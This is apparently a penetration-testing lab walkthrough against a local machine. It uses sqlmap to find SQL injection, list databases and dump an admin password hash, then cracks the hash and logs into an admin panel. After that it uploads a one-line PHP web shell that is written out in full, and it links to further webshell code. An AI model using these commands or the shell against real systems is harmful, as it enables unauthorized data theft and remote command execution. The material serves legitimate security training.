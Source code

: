 #### Basic usage
```
❯ python3 sqlmap.py -u <Vulnerable URL with Parameter>
```

#### Exploiting SQL Injection using sqlmap
We will using `--dbs` flag so it will list all of the database name
```
python3 sqlmap.py -u 'http://192.168.56.102/detail.php?id=1' --dbs
```

and we will get result
```
[22:19:30] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.52, PHP 7.3.33
back-end DBMS: MySQL >= 5.6
[22:19:30] [INFO] fetching database names
available databases [6]:
[*] administrator
[*] bookstore
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

As we see, the most interesting database to seek is `administrator` and we will dump this database using command below
```
python3 sqlmap.py -u 'http://192.168.56.102/detail.php?id=1' -D administrator --dump
```
And will getting this result
```
Database: administrator
Table: users
[1 entry]
+----+----------------------------------+----------+
| id | password                         | username |
+----+----------------------------------+----------+
| 1  | b9f385c68320e27d5a4ea0618eef4a94 | admin    |
+----+----------------------------------+----------+
```

### Cracking Password
We got credentials of the admin from the website, but the password seems to be hashed. we will crack the hash by using this website https://hashes.com/en/decrypt/hash and we found the real strings from the hash is `P@assw0rd!`. But where we will use this credentials? remember we see `/administrator` folder exists in port `8080`, right? And we successfully logged in there.

### Gaining Access to Server
After login we only see the file upload feature in it, since the website using `PHP` as it's backend we can try uploading `.php` file which containing malicious code in it. create new txt file, edit and write `<?php system($_GET["command"]); ?>` in there and rename it extension with `.php` and save it.
Other reference Malicious Code:
- https://github.com/bayufedra/Tiny-PHP-Webshell
